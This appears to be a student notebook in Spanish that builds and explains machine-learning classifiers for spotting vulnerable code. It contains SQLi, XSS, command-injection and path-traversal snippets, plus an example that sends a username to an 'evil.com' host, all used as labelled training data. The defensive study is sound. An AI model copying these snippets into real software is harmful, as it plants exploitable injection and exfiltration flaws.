# Taller Unificado — Minería de Datos Aplicada a Ciberseguridad
**Universidad de las Fuerzas Armadas ESPE** | Desarrollo Software Seguro 
**Docente:** Angel Geovanny Cudco Pomagualli  
**Estudiantes:** Marcos Escobar y Mateo Sosa  

---

Este notebook integra el **Taller 1** (clasificación: vulnerable vs. seguro con LIME) y el **Taller 2** (clasificación multiclase OWASP Top 10 con SHAP y LIME).

> **Problemas detectados:** El dataset `code_vulnerabilities.csv` contiene únicamente fragmentos vulnerables (SQLi y XSS). Ambas etiquetas normalizan a `1` (vulnerable) mediante `normalize_label`. Para entrenar se construyó un dataset balanceado de entrenamiento combinando esos fragmentos con ejemplos seguros sintéticamente generados para evitar sobreajuste.


## 0. Instalación de dependencias

In [1]:
%pip install -q pandas numpy scikit-learn matplotlib seaborn lime shap kagglehub

Note: you may need to restart the kernel to use updated packages.


## 1. Importaciones

In [2]:
import os, re, glob, warnings
from pathlib import Path

import numpy as np
import pandas as pd
import matplotlib
import matplotlib.pyplot as plt
import seaborn as sns

from sklearn.model_selection import train_test_split
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.linear_model import LogisticRegression
from sklearn.ensemble import RandomForestClassifier
from sklearn.naive_bayes import MultinomialNB
from sklearn.pipeline import Pipeline
from sklearn.metrics import (
    classification_report, confusion_matrix,
    accuracy_score, ConfusionMatrixDisplay,
)

warnings.filterwarnings("ignore")
pd.set_option("display.max_colwidth", 200)
RANDOM_STATE = 42
print("Importaciones listas.")

Importaciones listas.


## 2. Carga del dataset

El CSV provisto (`code_vulnerabilities.csv`) contiene las columnas:
- `Code Snippet`: fragmento de código fuente
- `Vulnerability Type`: tipo de vulnerabilidad (`SQLi` o `XSS`)
- `Location`: línea/ubicación (no se usa)
- `Preprocessed Tokens`: tokens ya procesados (no se usa)

**Problema identificado:** `Vulnerability Type` solo tiene valores vulnerables. El `guess_label_column` original detecta esta columna como etiqueta y `normalize_label` convierte `SQLi`→1 y `XSS`→1. El dataset resultante tiene solo una clase, por lo que debemos agregar ejemplos sintéticos con frases como `# safe_example_N`. Pero esto genera un nuevo problema, ya que, el modelo aprende a detectar el label en lugar de las vulnerabilidades.

**Solución:** Se construye un dataset balanceado con la columna `Code Snippet` etiquetada como `vulnerable`, más un conjunto curado de ejemplos seguros.


In [3]:
CSV_LOCAL_PATH = "code_vulnerabilities.csv"

def read_csv_robust(path):
    for kwargs in [{}, {"encoding": "latin-1"}, {"sep": ";"}, {"encoding": "latin-1", "sep": ";"}]:
        try:
            return pd.read_csv(path, **kwargs)
        except Exception:
            continue
    raise ValueError(f"No se pudo leer: {path}")

if Path(CSV_LOCAL_PATH).exists():
    df_raw = read_csv_robust(CSV_LOCAL_PATH)
    print(f"Dataset cargado: {df_raw.shape[0]} filas, {df_raw.shape[1]} columnas")
    print("Columnas:", df_raw.columns.tolist())
    display(df_raw.head(3))
else:
    print("CSV no encontrado. Asegúrate de tener code_vulnerabilities.csv en el directorio.")
    df_raw = None

Dataset cargado: 1000 filas, 4 columnas
Columnas: ['Code Snippet', 'Vulnerability Type', 'Location', 'Preprocessed Tokens']


,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users', 'WHERE', 'username', '=', ""'"", '+', 'user_input)']"
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=' + user_input;,XSS,2,"['document.location', '=', ""'http://evil.com?username='"", '+', 'user_input;']"


## 3. Construcción del dataset balanceado

### 3.1 El problema con el dataset original

Como se explicó arriba, el CSV entregado solo tiene fragmentos vulnerables. Se construye un dataset balanceado de la siguiente forma:

1. Los fragmentos del CSV se etiquetan como `vulnerable` (clase 1).
2. Se agrega un conjunto curado de **ejemplos seguros**: consultas parametrizadas, sanitización de salida, manejo seguro de archivos, hashing fuerte, validación de permisos, etc.
3. **No se incluyen frases artificiales** (`# safe_example_N`) que puedan sesgar el vocabulario del TF-IDF.

In [4]:
# Fragmentos seguros curados
SAFE_EXAMPLES = [
    # SQL seguro consultas parametrizadas
    "cursor.execute('SELECT * FROM users WHERE id = ?', (user_id,))",
    "cursor.execute('SELECT * FROM accounts WHERE email = ?', (email,))",
    "cursor.execute('SELECT name, role FROM employees WHERE dept = ?', (dept_id,))",
    "stmt = conn.prepareStatement('SELECT * FROM orders WHERE order_id = ?'); stmt.setInt(1, oid)",
    "stmt = conn.prepareStatement('INSERT INTO logs (user, action) VALUES (?, ?)'); stmt.setString(1, u); stmt.setString(2, a)",
    "db.query('SELECT id FROM sessions WHERE token = $1', [token])",
    "db.query('UPDATE users SET email = $1 WHERE id = $2', [new_email, uid])",
    "con.execute('DELETE FROM sessions WHERE expires_at < ?', (now,))",
    "repository.findByUsernameAndPassword(username, passwordHash)",
    "User.objects.filter(username=username, password=make_password(raw_pw)).first()",
    # XSS seguro salida escapada o sin HTML
    "element.textContent = userInput",
    "output.innerText = sanitize(userInput)",
    "span.textContent = comment",
    "const clean = DOMPurify.sanitize(comment); container.innerHTML = clean;",
    "response.write(html.escape(user_input))",
    "return escape(request.GET.get('q', ''))",
    "ctx.fillText(escapeHtml(label), x, y)",
    "cell.textContent = record.name",
    "li.textContent = item.description",
    "p.textContent = message",
    # Path traversal seguro
    "path = os.path.basename(filename); open(os.path.join(upload_dir, path), 'rb')",
    "safe = Path(base_dir, filename).resolve(); assert safe.is_relative_to(base_dir)",
    "normalized = os.path.normpath(os.path.join(root, user_path)); assert normalized.startswith(root)",
    "filename = werkzeug.utils.secure_filename(request.files['f'].filename)",
    "if not target.startswith(allowed_base): raise PermissionError('Access denied')",
    # Comandos seguros
    "subprocess.run(['ls', safe_path], check=True)",
    "subprocess.run(['convert', input_file, output_file], capture_output=True)",
    "subprocess.run(['/usr/bin/ping', '-c', '1', ip], timeout=5)",
    "result = subprocess.run(['grep', '-r', pattern, directory], text=True)",
    # Criptografía segura
    "password_hash = bcrypt.hashpw(password.encode(), bcrypt.gensalt())",
    "hashed = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt(12))",
    "from cryptography.fernet import Fernet; f = Fernet(key); token = f.encrypt(data)",
    "signature = hmac.new(secret, message, hashlib.sha256).hexdigest()",
    "iv = os.urandom(16); cipher = AES.new(key, AES.MODE_CBC, iv)",
    "digest = hashlib.sha256(data).hexdigest()",
    "token = secrets.token_hex(32)",
    "otp = pyotp.TOTP(secret).now()",
    # Control de acceso correcto
    "if user.has_permission('admin'): delete_record(record_id)",
    "if current_user.role == 'superadmin': perform_action()",
    "if not request.user.is_authenticated: return redirect('login')",
    "@login_required\ndef dashboard(request): return render(request, 'dash.html')",
    "if not has_role(user, 'editor'): abort(403)",
    # Deserialización segura
    "data = json.loads(request.body)",
    "obj = json.loads(response.text)",
    "payload = yaml.safe_load(config_file)",
    "with open('data.json') as f: config = json.load(f)",
    "result = msgpack.unpackb(raw, raw=False)",
    # JWT y tokens
    "payload = jwt.decode(token, settings.SECRET_KEY, algorithms=['HS256'])",
    "decoded = jwt.decode(token, pub_key, algorithms=['RS256'], options={'verify_exp': True})",
    "claims = jose.jwt.decode(token, JWKS, algorithms=['RS256'], audience=CLIENT_ID)",
    # Logging seguro
    "logger.info('User %s logged in', username)",
    "logging.warning('Failed login attempt for user: %s', username)",
    "audit_log.record(action='delete', user=uid, resource=rid)",
    # Validación de entrada
    "if not re.match(r'^[a-zA-Z0-9_]{3,32}$', username): raise ValueError('Invalid username')",
    "schema = UserSchema(); errors = schema.validate(data); if errors: abort(400)",
    "validated = pydantic_model.parse_obj(request.json())",
    "if len(comment) > 500: raise ValidationError('Comment too long')",
    # Manejo de sesiones
    "session_id = secrets.token_urlsafe(32); sessions[session_id] = user_id",
    "response.set_cookie('session', sid, httponly=True, secure=True, samesite='Strict')",
    "if time.time() > session['expires_at']: del sessions[sid]; redirect('login')",
]

if df_raw is not None:
    vuln_codes = df_raw['Code Snippet'].dropna().astype(str).tolist()
else:
    vuln_codes = [
        "query = 'SELECT * FROM users WHERE id=' + user_id",
        "document.write(location.hash)",
        "eval(request.args.get('cmd'))",
        "document.getElementById('out').innerHTML = userInput",
        "subprocess.call('ls ' + user_path, shell=True)",
    ]

df_vuln = pd.DataFrame({"code": vuln_codes, "label": 1, "clase": "vulnerable"})
df_safe = pd.DataFrame({"code": SAFE_EXAMPLES,  "label": 0, "clase": "seguro"})

n_safe = len(df_safe)
n_vuln = min(len(df_vuln), n_safe * 5)
df_vuln_balanced = df_vuln.sample(n=n_vuln, random_state=RANDOM_STATE)

data = pd.concat([df_vuln_balanced, df_safe], ignore_index=True).sample(
    frac=1, random_state=RANDOM_STATE).reset_index(drop=True)

print(f"Dataset final: {data.shape[0]} filas")
print()
display(data["clase"].value_counts().rename("conteo").to_frame())
display(data.sample(6, random_state=1))

Dataset final: 360 filas



,conteo
clase,
vulnerable,300
seguro,60


,code,label,clase
258,obj = json.loads(response.text),0,seguro
301,document.location = 'http://evil.com?username=' + user_input;,1,vulnerable
93,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),1,vulnerable
132,db.execute('SELECT * FROM employees WHERE id = ' + user_input),1,vulnerable
175,cursor.execute('SELECT * FROM users WHERE username = ' + user_input),1,vulnerable
161,query = 'SELECT * FROM customers WHERE email = ' + email_input,1,vulnerable


### 3.2 Distribución de clases



In [5]:
fig, axes = plt.subplots(1, 2, figsize=(10, 3))

sns.countplot(data=data, x="clase", order=["seguro", "vulnerable"],
              palette={"seguro": "steelblue", "vulnerable": "tomato"}, ax=axes[0])
axes[0].set_title("Distribución de clases")
axes[0].set_xlabel("Clase")
axes[0].set_ylabel("Cantidad")

data["code_len"] = data["code"].str.len()
sns.histplot(data=data, x="code_len", hue="clase", bins=25, kde=True, ax=axes[1],
             palette={"seguro": "steelblue", "vulnerable": "tomato"})
axes[1].set_title("Longitud de fragmentos por clase")
axes[1].set_xlabel("Longitud (caracteres)")
axes[1].set_ylabel("Frecuencia")

plt.tight_layout()
plt.show()

## 4. Partición train/test

In [6]:
X_train, X_test, y_train, y_test = train_test_split(
    data["code"], data["label"],
    test_size=0.25, random_state=RANDOM_STATE, stratify=data["label"]
)

class_names = ["seguro", "vulnerable"]
print(f"Train: {X_train.shape[0]} muestras | Test: {X_test.shape[0]} muestras")
print()
print("Distribución train:")
print(y_train.value_counts().rename({0: "seguro", 1: "vulnerable"}).to_frame("conteo"))

Train: 270 muestras | Test: 90 muestras

Distribución train:
            conteo
label             
vulnerable     225
seguro          45


## 5. Entrenamiento del modelo

Se usa TF-IDF y Regresión Logística con `class_weight='balanced'` para intentar compensar el sobreajuste.

El `token_pattern` personalizado conserva:
- Identificadores y palabras (`\b\w+\b`)  
- Operadores compuestos (`==`, `!=`, `<=`, `>=`, `&&`, `||`)  
- Símbolos individuales de código (`{`, `}`, `(`, `)`, `[`, `]`, `;`, `=`, `+`, `-`, `*`, `/`, `<`, `>`, `.`, `'`, `"`)


In [7]:
TOKEN_PATTERN = r"(?u)\b\w+\b|==|!=|<=|>=|&&|\|\||[{}()\[\];=+\-*/<>.'\"]"

model = Pipeline([
    ("tfidf", TfidfVectorizer(
        lowercase=True,
        token_pattern=TOKEN_PATTERN,
        ngram_range=(1, 2),
        min_df=1,
        max_features=20000,
    )),
    ("clf", LogisticRegression(
        max_iter=1000,
        class_weight="balanced",
        C=1.0,
        random_state=RANDOM_STATE,
    )),
])

model.fit(X_train, y_train)
print("Modelo entrenado")
print(f"Vocabulario TF-IDF: {len(model['tfidf'].vocabulary_)} tokens")

Modelo entrenado
Vocabulario TF-IDF: 820 tokens


## 6. Evaluación del modelo

Accuracy: 0.9889

              precision    recall  f1-score   support

      seguro     1.0000    0.9333    0.9655        15
  vulnerable     0.9868    1.0000    0.9934        75

    accuracy                         0.9889        90
   macro avg     0.9934    0.9667    0.9794        90
weighted avg     0.9890    0.9889    0.9887        90





In [8]:
y_pred = model.predict(X_test)

print(f"Accuracy: {accuracy_score(y_test, y_pred):.4f}")
print()
print(classification_report(y_test, y_pred, target_names=class_names, digits=4, zero_division=0))

cm = confusion_matrix(y_test, y_pred)
disp = ConfusionMatrixDisplay(confusion_matrix=cm, display_labels=class_names)
fig, ax = plt.subplots(figsize=(4, 3))
disp.plot(ax=ax, colorbar=False, cmap="Blues")
ax.set_title("Matriz de confusión Taller 1")
plt.tight_layout()
plt.show()

## 7. Configuración de LIME

LIME (Local Interpretable Model-Agnostic Explanations) interpreta el texto de entrada y observa cómo cambia la predicción. Los tokens con barra verde contribuyen a la clase **vulnerable** y los rojos a **seguro**.


In [9]:
from lime.lime_text import LimeTextExplainer

lime_explainer = LimeTextExplainer(class_names=class_names)

def predict_proba_for_lime(texts):
    return model.predict_proba(list(texts))

def analizar_fragmento(codigo, etiqueta_real=None, num_features=12):
    """Predice y muestra la explicación LIME para un fragmento de código."""
    proba = model.predict_proba([codigo])[0]
    pred_idx = int(np.argmax(proba))
    pred_clase = class_names[pred_idx]
    
    print("="*70)
    print(f"Fragmento: {codigo[:120]}")
    print(f"Clase real      : {etiqueta_real if etiqueta_real else '(no indicada)'}")
    print(f"Predicción      : {pred_clase}")
    print(f"Prob. seguro    : {proba[0]:.4f}")
    print(f"Prob. vulnerable: {proba[1]:.4f}")
    
    correcto = None
    if etiqueta_real:
        correcto = (pred_clase == etiqueta_real)
        print(f"¿Correcto?      : {'Sí' if correcto else 'No'}")
    print()
    
    exp = lime_explainer.explain_instance(
        codigo, predict_proba_for_lime, num_features=num_features, labels=[0, 1]
    )
    try:
        from IPython.display import display, HTML
        display(HTML(exp.as_html(labels=[0, 1], predict_proba=True, show_predicted_value=True)))
    except Exception:
        print("Tokens más influyentes (vulnerable):")
        for token, weight in exp.as_list(label=1):
            sign = "+" if weight > 0 else "-"
            print(f"  {sign} {token:30s} {weight:+.4f}")
    print()
    return {
        "prediccion": pred_clase,
        "prob_seguro": round(proba[0], 4),
        "prob_vulnerable": round(proba[1], 4),
        "correcto": correcto,
        "lime_top_token": exp.as_list(label=1)[0][0] if exp.as_list(label=1) else "N/A",
    }

---
# ACTIVIDAD 1: Detector Explicable de Código Vulnerable

Actividad: **Taller 01 Selección de fragmentos, predicción y análisis LIME**


## Parte 1 Tabla de 10 fragmentos evaluados

In [10]:
fragmentos_nuevos = [
    # Seguros
    {
        "codigo": 'cursor.execute("SELECT u.username, u.dateCreated FROM Users u WHERE u.username = ? AND u.password = ?", (data.username, data.password))',
        "etiqueta": "seguro",
        "razon": "Consulta parametrizada con marcadores posicionales; no se concatena entrada del usuario.",
    },
    {
        "codigo": 'const username = sanitizeInput(document.getElementById("username").value);',
        "etiqueta": "seguro",
        "razon": "La entrada se pasa por sanitizeInput antes de usarla, previniendo XSS.",
    },
    {
        "codigo": 'const password = sanitizeInput(document.getElementById("password").value ?? "");',
        "etiqueta": "seguro",
        "razon": "Sanitización explícita con valor por defecto; ninguna concatenación de HTML peligrosa.",
    },
    {
        "codigo": 'const safePath = path.join(__dirname, path.basename(userInput)); fs.readFile(safePath, "utf8", cb)',
        "etiqueta": "seguro",
        "razon": "path.basename elimina componentes de directorio, mitigando Path Traversal.",
    },
    {
        "codigo": 'cursor.execute("INSERT INTO Tables (id, name) VALUES (?, ?)", (table.id, table.name))',
        "etiqueta": "seguro",
        "razon": "INSERT parametrizado; los valores no se interpolan en la cadena SQL.",
    },
    # Vulnerables
    {
        "codigo": "cursor.execute(\"SELECT * FROM Users WHERE username = '\" + data.username + \"' AND password = '\" + data.password + \"'\")",
        "etiqueta": "vulnerable",
        "razon": "SQL Injection: concatenación directa de credenciales en la query SQL.",
    },
    {
        "codigo": 'document.getElementById("output").innerHTML = document.getElementById("username").value;',
        "etiqueta": "vulnerable",
        "razon": "XSS: el valor del campo se inyecta como HTML sin escapar.",
    },
    {
        "codigo": 'const filePath = path.join(baseDir, userInput); fs.readFile(filePath, "utf8", cb)',
        "etiqueta": "vulnerable",
        "razon": "Path Traversal: userInput puede contener '../' para escapar del baseDir.",
    },
    {
        "codigo": 'cursor.execute("INSERT INTO Tables VALUES (" + table.id + ", \'" + table.name + "\')") ',
        "etiqueta": "vulnerable",
        "razon": "SQL Injection: concatenación en INSERT; table.name puede incluir comillas.",
    },
    {
        "codigo": 'os.system("cat " + filename)',
        "etiqueta": "vulnerable",
        "razon": "Command Injection: filename puede inyectar comandos adicionales con ; o &&.",
    },
]

# Predicción para los 10 fragmentos
textos  = [f["codigo"]   for f in fragmentos_nuevos]
reales  = [f["etiqueta"] for f in fragmentos_nuevos]
probs   = model.predict_proba(textos)
preds   = model.predict(textos)

resultados = pd.DataFrame({
    "N°":         range(1, 11),
    "Tipo":        [f["razon"][:45]+"..." for f in fragmentos_nuevos],
    "Etiqueta real":    reales,
    "Predicción":       [class_names[p] for p in preds],
    "Prob. seguro":     probs[:, 0].round(4),
    "Prob. vulnerable": probs[:, 1].round(4),
    "¿Correcto?":       ["Sí" if class_names[p] == r else "No" for p, r in zip(preds, reales)],
})
resultados.set_index("N°", inplace=True)
display(resultados)

correctos = sum(1 for p, r in zip(preds, reales) if class_names[p] == r)
print(f"\nAciertos sobre los 10 fragmentos: {correctos}/10")

,Tipo,Etiqueta real,Predicción,Prob. seguro,Prob. vulnerable,¿Correcto?
N°,,,,,,
1,Consulta parametrizada con marcadores posicio...,seguro,seguro,0.6729,0.3271,Sí
2,La entrada se pasa por sanitizeInput antes de...,seguro,vulnerable,0.4254,0.5746,No
3,Sanitización explícita con valor por defecto;...,seguro,seguro,0.5768,0.4232,Sí
4,path.basename elimina componentes de director...,seguro,seguro,0.8074,0.1926,Sí
5,INSERT parametrizado; los valores no se inter...,seguro,seguro,0.8040,0.1960,Sí
6,SQL Injection: concatenación directa de crede...,vulnerable,vulnerable,0.4069,0.5931,Sí
7,XSS: el valor del campo se inyecta como HTML ...,vulnerable,vulnerable,0.3791,0.6209,Sí
8,Path Traversal: userInput puede contener '../...,vulnerable,seguro,0.7579,0.2421,No
9,SQL Injection: concatenación en INSERT; table...,vulnerable,seguro,0.5455,0.4545,No



Aciertos sobre los 10 fragmentos: 6/10


## Parte 2 Explicabilidad con LIME (3 fragmentos vulnerables)

In [11]:
# Fragmento vulnerable 1: SQL Injection clásica
resultado_1 = analizar_fragmento(
    fragmentos_nuevos[5]["codigo"],
    etiqueta_real="vulnerable",
)

Fragmento: cursor.execute("SELECT * FROM Users WHERE username = '" + data.username + "' AND password = '" + data.password + "'")
Clase real      : vulnerable
Predicción      : vulnerable
Prob. seguro    : 0.4069
Prob. vulnerable: 0.5931
¿Correcto?      : Sí



In [12]:
# Fragmento vulnerable 2: XSS con innerHTML
resultado_2 = analizar_fragmento(
    fragmentos_nuevos[6]["codigo"],
    etiqueta_real="vulnerable",
)

Fragmento: document.getElementById("output").innerHTML = document.getElementById("username").value;
Clase real      : vulnerable
Predicción      : vulnerable
Prob. seguro    : 0.3791
Prob. vulnerable: 0.6209
¿Correcto?      : Sí



In [13]:
# Fragmento vulnerable 3: Command Injection con os.system
resultado_3 = analizar_fragmento(
    fragmentos_nuevos[9]["codigo"],
    etiqueta_real="vulnerable",
)

Fragmento: os.system("cat " + filename)
Clase real      : vulnerable
Predicción      : seguro
Prob. seguro    : 0.7675
Prob. vulnerable: 0.2325
¿Correcto?      : No



### Tabla resumen de predicciones LIME

| Fragmento | Categoría predicha | Confianza | ¿Es correcta? | Token más influyente |
|---|---|---|---|---|
| 1 — SQL Injection concatenada | Vulnerable | 0.5931 | Sí | data |
| 2 — XSS con innerHTML | vulnerable | 0.6209 | Sí | getElementById |
| 3 — Command Injection os.system | Seguro | 0.7675 | No | filename |

### Reflexión (mínimo 100 palabras)

De los tres casos probados, el fragmento 2 es el que proporciona una mayor confianza (62.09%) y predice correctamente la clase, basicamente es el resultado mas confiable de los tres. Los otros dos casos no tiene un análisis correcto por un lado el caso 1 identifico una palabra común como determinante para la clase vulnerable. Y por otro lado el caso 3 que predijo como seguro con una confianza extremadamente alta cuando era una vulnerabilidad. En otras palabras una confianza alta no significa que la prediccion sea correcta.

## Parte 3 Análisis de errores (falsos positivos y negativos)

In [14]:
# Identificar errores
errores = resultados[resultados["¿Correcto?"] == "No"].copy()

if errores.empty:
    print("No se encontraron errores en los 10 fragmentos.")
    print("El modelo clasificó correctamente todos los casos.")
else:
    print(f"Errores encontrados: {len(errores)}")
    display(errores)

# Análisis de falsos positivos y negativos
print()
print("Falsos Positivos (seguro clasificado como vulnerable):")
fp = [(f["codigo"][:60], class_names[p]) for f, p, r in zip(fragmentos_nuevos, preds, reales)
      if f["etiqueta"] == "seguro" and class_names[p] == "vulnerable"]
if fp:
    for cod, pred in fp:
        print(f"  → {cod}...")
else:
    print("  Ninguno.")

print()
print("Falsos Negativos (vulnerable clasificado como seguro):")
fn = [(f["codigo"][:60], class_names[p]) for f, p, r in zip(fragmentos_nuevos, preds, reales)
      if f["etiqueta"] == "vulnerable" and class_names[p] == "seguro"]
if fn:
    for cod, pred in fn:
        print(f"  → {cod}...")
else:
    print("  Ninguno.")

Errores encontrados: 4


,Tipo,Etiqueta real,Predicción,Prob. seguro,Prob. vulnerable,¿Correcto?
N°,,,,,,
2,La entrada se pasa por sanitizeInput antes de...,seguro,vulnerable,0.4254,0.5746,No
8,Path Traversal: userInput puede contener '../...,vulnerable,seguro,0.7579,0.2421,No
9,SQL Injection: concatenación en INSERT; table...,vulnerable,seguro,0.5455,0.4545,No
10,Command Injection: filename puede inyectar co...,vulnerable,seguro,0.7675,0.2325,No



Falsos Positivos (seguro clasificado como vulnerable):
  → const username = sanitizeInput(document.getElementById("user...

Falsos Negativos (vulnerable clasificado como seguro):
  → const filePath = path.join(baseDir, userInput); fs.readFile(...
  → cursor.execute("INSERT INTO Tables VALUES (" + table.id + ",...
  → os.system("cat " + filename)...


### Causas posibles de errores

El modelo logra detectar palabaras sospechosas pero no las vulnerabilidades reales. Esto nos indican los cuatro errores identificados en el paso anterior. El falso positivo ocurrió porque los tokens sanitizeInput y getElementById son parte del mismo vocabulario con fragmentos vulnerables por lo asocia la palabra con vulnerable aunque esto más bien mitiga el riesgo.
Por otro lado los falsos negativos muestran que el modelo no logra reconocer las concatenaciones como vulnerabilidad. Basicamente es el caso inverso antes mencionado como path.join pertenece a fragmentos seguros asocia la palabra con seguro.
En resumen, el vocabulario de entrenamiento no cubre suficiente variedad y los ejemplos seguros usan algunas de las mismas funciones que los vulnerables, y el modelo aprende la función en lugar del contexto de uso.


## Parte 4 Propuesta de mejora

### Experimento de mejora

In [15]:
# Probar con Random Forest para comparar
model_rf = Pipeline([
    ("tfidf", TfidfVectorizer(
        lowercase=True,
        token_pattern=TOKEN_PATTERN,
        ngram_range=(1, 2),
        min_df=1,
        max_features=20000,
    )),
    ("clf", RandomForestClassifier(
        n_estimators=200,
        class_weight="balanced",
        random_state=RANDOM_STATE,
        n_jobs=-1,
    )),
])

model_rf.fit(X_train, y_train)
y_pred_rf = model_rf.predict(X_test)

print("=" * 50)
print("Regresión Logística:")
print(f"  Accuracy: {accuracy_score(y_test, y_pred):.4f}")
print()
print("Random Forest:")
print(f"  Accuracy: {accuracy_score(y_test, y_pred_rf):.4f}")
print()
print("Reporte Random Forest:")
print(classification_report(y_test, y_pred_rf, target_names=class_names, digits=4, zero_division=0))

Regresión Logística:
  Accuracy: 0.9889

Random Forest:
  Accuracy: 0.9889

Reporte Random Forest:
              precision    recall  f1-score   support

      seguro     1.0000    0.9333    0.9655        15
  vulnerable     0.9868    1.0000    0.9934        75

    accuracy                         0.9889        90
   macro avg     0.9934    0.9667    0.9794        90
weighted avg     0.9890    0.9889    0.9887        90



## Parte 5 Conclusión

### Conclusión
El cambio de enfoque en el clasificador nos muestra que si es posible reconocer ciertos patrone asociados a los códigos vulnerables usando la tokeneización. Sin embargo, la calidad del modelo depende completamente del dataset de entrenamiento. El problema que se identifico desde el inicio de la practica nos acompaño hasta el final de la misma mostrando que no se puede confiar plenamente en estos procedimientos. 

La vulnerabilidad más fácil de detectar fue la inyección de comandos con os.system, porque su patrón es muy específico. La más difícil fue el Path Traversal, porque depende de si la entrada del usuario se sanitiza con basename o resolve, palabras que pueden aparecer tanto en código seguro como vulnerable dependiendo del contexto.


---
---

# ACTIVIDAD 2: Detección de Vulnerabilidades según OWASP Top 10 (2021)

## A. Dependencias adicionales para el Taller 2

In [16]:
# shap ya se instaló en el paso 0 del Taller 1.
# %pip install -q shap wordcloud
import shap
print(f"SHAP versión: {shap.__version__}")

SHAP versión: 0.52.0


## B. Importaciones adicionales

In [17]:
import random
from collections import Counter
from sklearn.naive_bayes import MultinomialNB
from IPython.display import display, Markdown, HTML

random.seed(42)
np.random.seed(42)
print("Importaciones del Taller 2 listas.")

Importaciones del Taller 2 listas.


## 1. Construcción del Dataset Sintético OWASP Top 10

El Taller 2 trabaja con un dataset sintético generado a partir de plantillas de código en Python, PHP, JavaScript y Java. Cada plantilla representa patrones de vulnerabilidad de una categoría OWASP Top 10 (2021).

> **¿Por qué sintético?** No existe actualmente un dataset público de acceso libre con fragmentos etiquetados confiablemente para las 10 categorías del OWASP Top 10 (2021). El dataset sintético permite controlar el balance y la cobertura de cada clase, a costa de una variedad léxica menor que lo que ofrece el codigo real. Además se agregaron comentarios en código para simular un entorno realista donde un dev dejo su granito de arena de documentación y como reaccionaria un modelo ante esto.


In [18]:
PLANTILLAS = {
    "A01_Broken_Access_Control": [
        "@app.route('/admin/{path}')\ndef admin_panel():\n    return render_template('admin.html')  # sin verificar rol",
        "def get_user_profile(user_id):\n    return db.query(f'SELECT * FROM users WHERE id={user_id}')  # IDOR",
        "if request.method == 'POST':\n    user.is_admin = request.form['is_admin']  # asignación masiva",
        "<?php\n$file = $_GET['file'];\nreadfile('/var/www/uploads/' . $file); ?>  // path traversal",
        "app.get('/api/orders/:id', (req, res) => {\n  Order.findById(req.params.id).then(o => res.json(o)); // sin auth\n});",
        "def delete_account(account_id):\n    Account.objects.get(id=account_id).delete()  # falta check de owner",
        "function viewDocument(docId) {\n  return fetch('/docs/' + docId);  // referencia directa insegura\n}",
        "@PreAuthorize('permitAll()')\npublic User getUser(Long id) { return repo.findById(id); }",
        "if user.role == 'guest':\n    pass  # se permite acceso sin restricción a {path}",
        "location /admin/ { allow all; }  # nginx config sin restricción de IP",
    ],
    "A02_Cryptographic_Failures": [
        "import hashlib\npassword_hash = hashlib.md5(password.encode()).hexdigest()  # MD5 obsoleto",
        "cipher = DES.new(key, DES.MODE_ECB)  # DES con ECB es inseguro",
        "ssl_context = ssl.SSLContext(ssl.PROTOCOL_TLSv1)  # TLS 1.0 obsoleto",
        "api_key = 'sk_live_{path}1234567890abcdef'  # secreto hardcodeado",
        "<?php $hash = sha1($_POST['password']); ?>  // SHA1 inseguro",
        "Cipher c = Cipher.getInstance('AES/ECB/PKCS5Padding'); // modo ECB",
        "fetch('http://api.example.com/login', {method:'POST', body: pwd})  // HTTP plano",
        "key = b'1234567890123456'  # clave estática reutilizada",
        "openssl_encrypt($data, 'rc4', $key)  // RC4 está roto",
        "self.token = base64.b64encode(password.encode())  # base64 NO es cifrado {path}",
    ],
    "A03_Injection": [
        "query = \"SELECT * FROM users WHERE name='\" + username + \"'\"  # SQL injection",
        "cursor.execute(f'SELECT * FROM products WHERE id={product_id}')  # SQLi por f-string",
        "os.system('ping ' + user_input)  # command injection",
        "<?php $q = \"SELECT * FROM u WHERE n='\".$_GET['n'].\"'\"; ?>  // SQLi PHP",
        "document.getElementById('out').innerHTML = userInput;  // XSS DOM",
        "<div>{{ user_comment|safe }}</div>  <!-- XSS reflejado en Jinja -->",
        "Runtime.getRuntime().exec(\"sh -c \" + cmd);  // command injection Java",
        "eval(request.GET.get('expr'))  # eval con input del usuario",
        "subprocess.call('cat ' + filename, shell=True)  # shell=True peligroso {path}",
        "ldap_search = '(uid=' + user + ')'  # LDAP injection",
    ],
    "A04_Insecure_Design": [
        "def reset_password(email):\n    new_pwd = '123456'  # contraseña predecible al resetear",
        "if user.age < 18:\n    pass  # no se valida flujo de menores en {path}",
        "def transfer_funds(amount, to):\n    # sin límite ni verificación de doble factor\n    do_transfer(amount, to)",
        "<?php // CAPTCHA omitido en login para 'mejorar UX' ?>",
        "def signup(email):\n    # no se valida si el correo ya existe ni dominio corporativo\n    User.create(email)",
        "// flujo de checkout permite precio negativo: total = price * qty;",
        "def grant_discount(code):\n    # cupones reutilizables sin expiración\n    apply(code)",
        "if request.path.startswith('/api'):\n    skip_csrf = True  # decisión de diseño riesgosa",
        "# lógica de negocio confía ciegamente en el cliente para calcular total {path}",
        "def upload(file):\n    save(file)  # no se define tamaño máximo ni tipo permitido",
